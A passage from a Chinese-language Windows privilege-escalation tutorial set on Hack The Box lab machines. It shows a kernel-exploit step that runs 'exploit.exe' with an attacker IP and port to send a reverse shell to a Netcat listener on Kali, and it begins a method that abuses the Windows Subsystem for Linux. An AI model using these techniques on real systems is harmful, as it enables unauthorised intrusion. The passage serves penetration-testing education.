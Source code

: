 接下来，在攻击机器上启动一个Netcat监听器。在Windows上，使用自己机器的IP和刚刚在Netcat中使用的端口运行漏洞利用。

```
exploit.exe 10.10.14.10 5555
```

回到Kali机器, 将看到成功获取到一个Shell,如图:

![图片](./在Windows系统下提权的8种主要姿势.assets/640-1715064791963-19.webp)

找到过时或未打补丁的系统可能会通过内核漏洞导致特权提升。在使用内核漏洞时要小心，因为它们有时可能会导致目标系统不稳定。

## 方法4：利用Windows中的Linux子系统

WSL代表Windows子系统Linux。它是在Windows系统上运行Linux的兼容性层。它允许用户在Windows上直接运行GNU/Linux环境，而无需虚拟机，包括大多数命令行工具和实用程序。

在某些情况下，如果WSL以root权限运行，可以利用它来创建一个提升的shell。下面将演示如何使用WSL通过“Hack The Box: SecNotes”机器上的bash历史记录进行特权提升。

一旦在机器上建立了一个shell并找到了Tyler桌面上的user.txt文件，会注意到一个bash.lnk文件。这个文件可能表明这个Windows操作系统正在运行WSL。

![图片](./在Windows系统下提权的8种主要姿势.assets/640-1715064791963-20.webp)
